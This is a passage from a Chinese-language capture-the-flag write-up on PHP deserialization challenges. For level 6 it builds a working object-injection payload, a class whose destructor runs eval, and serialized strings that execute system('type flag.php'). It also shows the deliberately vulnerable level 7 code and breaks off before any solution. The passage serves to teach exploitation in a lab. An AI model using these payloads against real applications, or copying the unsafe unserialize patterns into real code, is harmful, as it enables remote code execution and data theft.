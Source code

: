 ```php
unserialize($param);
?>
<br><a href="../level7">点击进入第七关</a>
```

这一关考的时私有属性的反序列化，这这里有一个要点就是在Private 权限私有属性序列化的时候格式是 %00类名%00属性名，在Protected 权限序列化的时候格式是 %00*%00属性名，因此本题payload的构造如下：

```php
<?php
class secret{
    private $comm;
    public function __construct($com){
        $this->comm = $com;
    }
    function __destruct(){
        echo eval($this->comm);
    }
}
$pa=new secret("system('type flag.php');");
echo serialize($pa),"\n";
//O:6:"secret":1:{s:12:" secret comm";s:24:"system('type flag.php');";}
//O:6:"secret":1:{S:12:"\00secret\00comm";s:24:"system('type flag.php');";}
?>
```



#### 7. 第七关

第七关代码如下：

```php
<?php
highlight_file(__FILE__);
class you
{
    private $body;
    private $pro='';
    function __destruct()
    {
        $project=$this->pro;
        $this->body->$project();
    }
}

class my
{
    public $name;

    function __call($func, $args)
    {
        if ($func == 'yourname' and $this->name == 'myname') {
            include('flag.php');
            echo $flag;
        }
    }
}
$a=$_GET['a'];
unserialize($a);
?>
```

